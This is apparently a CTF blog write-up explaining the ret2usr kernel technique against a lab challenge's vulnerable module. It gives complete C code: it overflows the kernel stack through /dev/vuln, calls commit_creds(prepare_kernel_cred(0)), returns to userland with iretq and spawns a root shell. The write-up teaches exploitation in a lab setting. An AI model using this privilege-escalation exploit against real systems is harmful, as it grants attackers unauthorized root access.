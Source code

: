 ```yaml
---
layout: post
title:  "Ret2usr Kernel Exploitation Basic"
date:   2022-03-27
categories: pwn
description: Pwn, Pwn, Pwn Pwn the kernel
tags: pwn, CTF
---
```



<img src="/images/ret2usr/cover.png"/>


# What is ret2usr

The ret2usr attack exploits the user space of the user space to access the kernel space, but the kernel space can access the user space** This feature directs the kernel code or data stream to the user control, and performs the userspace code completion with the ring 0 privilege. ~CTF Wiki


The ret2usr is pretty similar to ret2shellcode, since we can control things on `user-land`
we can put shellcode somewhere on the stack then overwrite the return address of the 
current function with our shellcode address.

In order to make this technique work, we have to make sure there's no `kaslr`, `smep`, `smap` 
and `pti` is enabled. 


for example I will use challenge from `https://w3challs.com/challenges/pwn/knoob`  

# Save state registers

Firstly, before going into `kernel-mode` we have to save the state of these registers. then 
reload them after gaining root privileges. This is because normally kernel will return to `user-land`
using 1 instruction either it is `sysretq` or `iretq`. Most people will use `iretq` because as far I know `sysretq`
is more complicated. The `iretq` instruction requires the stack to be setup with 5 `user-land` register values
in this order `RIP|CS|RFLAGS|SP|SS`

the function to save the state can be look like below

{% highlight c %}
void save_state(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflag;"
        ".att_syntax"
    );
}
{% endhighlight %}

# Open the device 

We have to open the device in order to interact with the kernel module, the function to 
open the device will look like this:

{% highlight C %}
void open_device_state(){
    opend_ = open("/dev/vuln", O_RDWR);
    if(opend_ < 0 ){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}
{% endhighlight %}

# Overwrite return address

We can use command like `echo "AAAAAAAAAAAAAAAAAA" > /dev/vuln` to determine how long the offset to overwrite `%rip`
then we can make a function to overwrite the current `%rip` on the `kernel-space`:

{% highlight c %}
void smash(){
    unsigned long n = 23;
    unsigned long rop[n];
    unsigned off = 0;
    rop[off++] = 0x4141414141414141;
    rop[off++] = 0x4241414141414141;
    rop[off++] = 0x4341414141414141;
    rop[off++] = 0x4441414141414141;
    rop[off++] = 0x4541414141414141;
    rop[off++] = 0x4641414141414141;
    rop[off++] = 0x4741414141414141;
    rop[off++] = 0x4841414141414141;
    rop[off++] = 0x4941414141414141;
    rop[off++] = 0x4a41414141414141;
    rop[off++] = 0x4b41414141414141;
    rop[off++] = 0x4c41414141414141;
    rop[off++] = 0x4d41414141414141;
    rop[off++] = 0x4e41414141414141;
    rop[off++] = 0x4f41414141414141;
    rop[off++] = 0x5141414141414141;
    rop[off++] = 0x5241414141414141;
    rop[off++] = 0x5341414141414141;
    rop[off++] = 0x5441414141414141;
    rop[off++] = 0x5541414141414141;
    rop[off++] = 0x5641414141414141;
    rop[off++] = 0x5741414141414141;
    rop[off++] = (unsigned long)gain_r00t;
    write(opend_, rop, sizeof(rop));
}
{% endhighlight %}

In order to get privilege escalation, we need to perform `commit_creds(prepare_kernel_cred(0))` to
get root permission from `kernel-space`, since `kaslr` is disabled we can find the address from `/proc/kallsyms` 

{% highlight sh %}
/ $ cat /proc/kallsyms | grep commit_creds
ffffffff81084550 T commit_creds
/ $ cat /proc/kallsyms | grep prepare_kernel_cred
ffffffff81084810 T prepare_kernel_cred
{% endhighlight %}

Now we can craft the exploit and reload all the registers to achieve root privileges. Since we want a shell to be popped, you need to return to `user-land`. the reason is because after running the exploit we are still in `kernel-mode` so in order to get a root shell we need to return to `user-land`. the code to achieve root privileges and reload 5 register values can be written as follows

{% highlight c %}

void gain_r00t(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, prepare_kernel_cred;"
        "xor rdi, rdi;"
        "call rax;"
        "mov rdi, rax;"
        "movabs rax, commit_creds;"
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflag;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

{% endhighlight %}

<img src="/images/ret2usr/poc.png"/>

# Full exploit

{% highlight C %}

#include <stdio.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdint.h>


unsigned long prepare_kernel_cred = 0xffffffff81084810;
unsigned long commit_creds = 0xffffffff81084550;

int opend_;
unsigned long user_cs, user_ss, user_rsp, user_rflag;

void open_device_state(){
    opend_ = open("/dev/vuln", O_RDWR);
    if(opend_ < 0 ){
        write(1,"[-] fail to open device\n",24);
    }else{
        write(1,"[+] device opened\n",18);
    }
}

void save_state(void){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflag;"
        ".att_syntax"
    );
}

void gain_shell(void){
    write(1,"[*] back to userland\n",21);
    if(getuid() == 0){
        system("/bin/sh");
    }else{
        write(1, "[-] fail", 8);
    }
}

unsigned long user_rip = (unsigned long)gain_shell;
void gain_r00t(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, prepare_kernel_cred;"
        "xor rdi, rdi;"
        "call rax;"
        "mov rdi, rax;"
        "movabs rax, commit_creds;"
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflag;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

void smash(){
    unsigned long n = 23;
    unsigned long rop[n];
    unsigned off = 0;
    rop[off++] = 0x4141414141414141;
    rop[off++] = 0x4241414141414141;
    rop[off++] = 0x4341414141414141;
    rop[off++] = 0x4441414141414141;
    rop[off++] = 0x4541414141414141;
    rop[off++] = 0x4641414141414141;
    rop[off++] = 0x4741414141414141;
    rop[off++] = 0x4841414141414141;
    rop[off++] = 0x4941414141414141;
    rop[off++] = 0x4a41414141414141;
    rop[off++] = 0x4b41414141414141;
    rop[off++] = 0x4c41414141414141;
    rop[off++] = 0x4d41414141414141;
    rop[off++] = 0x4e41414141414141;
    rop[off++] = 0x4f41414141414141;
    rop[off++] = 0x5141414141414141;
    rop[off++] = 0x5241414141414141;
    rop[off++] = 0x5341414141414141;
    rop[off++] = 0x5441414141414141;
    rop[off++] = 0x5541414141414141;
    rop[off++] = 0x5641414141414141;
    rop[off++] = 0x5741414141414141;
    rop[off++] = (unsigned long)gain_r00t;
    write(opend_, rop, sizeof(rop));
}

void main(){
    save_state();
    open_device_state();
    smash();    

}

{% endhighlight %}